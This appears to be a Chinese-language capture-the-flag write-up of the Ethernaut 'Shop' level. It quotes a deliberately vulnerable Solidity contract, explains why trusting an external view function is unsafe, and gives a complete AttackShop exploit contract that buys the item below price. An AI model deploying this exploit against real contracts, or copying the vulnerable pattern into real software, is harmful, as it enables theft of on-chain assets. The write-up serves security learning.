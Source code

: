 # 21-Shop

日期: 23/08/2024
难易: 简单
漏洞小结: view的局限性
简单明了: 通过自身状态让view函数return不同的值

# 问题描述

Сan you get the item from the shop for less than the price asked?

### **Things that might help:**

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

# 攻击思路

- 写一个攻击合约去调用的话，攻击合约就会被cast成Buyer类型，那么就可以在攻击合约里面自定义price函数
- shop合约中，需要`price`函数在第一次调用的时候大于等于100，在第二次调用的时候小于100，两次调用之间isSold被设置成了true
- 虽然`price`函数修饰词是view，不能够修改参数，但是可以根据`isSold`来return不同的数值
    - 类似于修改参数了

# 攻击方式

```solidity
contract AttackShop{
    Shop public target;

    constructor(address _target){
        target = Shop(_target);
    }

    function attack() public{
        target.buy();
    }

    function price() public view returns (uint256){
        if(target.isSold()){
            return 99;
        }
        else {
            return 100;
        }
    }
}
```

# Ethernuat总结

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.

# 小白的思考

- Interface是可以自定义的，比较好利用
- View修饰词的函数不可以修改变量，但是可以通过其他变量的改变返回不同的值